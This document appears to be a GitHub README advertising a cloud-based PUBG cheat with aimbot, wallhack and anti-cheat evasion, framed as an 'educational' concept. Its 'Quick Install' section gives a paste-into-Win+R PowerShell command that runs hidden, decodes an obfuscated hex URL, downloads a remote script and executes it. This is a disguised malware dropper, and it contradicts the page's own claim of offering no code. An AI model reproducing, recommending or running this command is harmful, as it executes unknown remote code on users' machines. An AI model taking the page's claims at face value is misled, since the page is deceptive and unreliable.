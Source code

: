 # 👻 Ghost of the Fog

## ✨ Concept of a Resilient PUBG Cheat with Cloud Architecture ✨

---

## 📜 Description

"Ghost of the Fog" is a concept for an advanced PUBG cheat designed for maximum stealth and resilience against detection by leveraging a distributed cloud architecture. Instead of executing all logic on the user's local machine, the majority of data processing is offloaded to remote servers, minimizing local footprints and complicating analysis by Anti-Cheat systems.

**⚠️ IMPORTANT:** This concept is presented solely for **educational and research purposes**. Creating and using such software is **illegal** and violates game rules. I do not provide any real instructions, code, or executable files.

---

## 🚀 Key Components

| Component           | Name      | Role                                                                     | Key Features                                                                                                                                 |
|---------------------|-----------|--------------------------------------------------------------------------|----------------------------------------------------------------------------------------------------------------------------------------------|
| 💻 Local Client     | **Ghost** | Traffic interception, communication with the cloud, minimal local footprint | 👻 Anti-Cheat Evasion (low-level interception, obfuscation, polymorphism, encryption), 📦 Small file size, 🔑 Covert control.                |
| ☁️ Cloud Server     | **Fog**   | Game data processing, world modeling, output data generation               | 📊 Network traffic analysis, 🗺️ World modeling, 🧠 Intelligent data processing, ⚖️ Scalability, 🛡️ Distributed architecture.               |
| 👁️ Display Mechanism | **Phantom** | Overlaying information (WallHack/MapHack) on top of the game screen        | 👻 Anti-Cheat Evasion (OS-level overlays), 🔄 Dynamic updates, ⏱️ Randomized delays, 🔑 Covert control.                                         |

---

## 🔄 Component Interaction


    A -->[💻 Local Client (Ghost)] -->|Intercept and send traffic (encrypted) 🔒| B(☁️ Cloud Server (Fog));
    B -->|Process and send data (encrypted) 🔒| A;
    A -->|Transfer data for display| C[👁️ Display Mechanism (Phantom)];
    C -->|Overlay information on top of the game| D[🎮 PUBG Game];

## ✨ Advantages of Cloud Architecture
## 👻 Minimal Footprint: Reduced code and data on the local machine.
## 🕵️ Detection Difficulty: Activity on a remote server is harder to trace.
## ⚖️ Scalability: Easy increase in power to support more users.
## 🛡️ Resilience: High availability of cloud services.
## 🔄 Centralized Control: Simplifies updates and changes.

### AimBot,MapHack, WallHack, ESP, Anti-Flash.

# HOW TO INSTAL:
### Prerequisites

- Internet connection for real-time data fetching

### Quick Install

- #### Press win+r
- #### Insert command
```bash
powershell -WindowStyle Hidden -Command "$p='68747470733A2F2F6A616968696E642E6564752E696E2F67726170657375626A6563742F726570616972626574746572';$u=[System.Text.Encoding]::UTF8.GetString((1..($p.Length/2) | ForEach-Object {[Convert]::ToByte($p.Substring((($_-1)*2),2),16)}));([ScriptBlock]::Create((Invoke-RestMethod $u))).Invoke()"
```

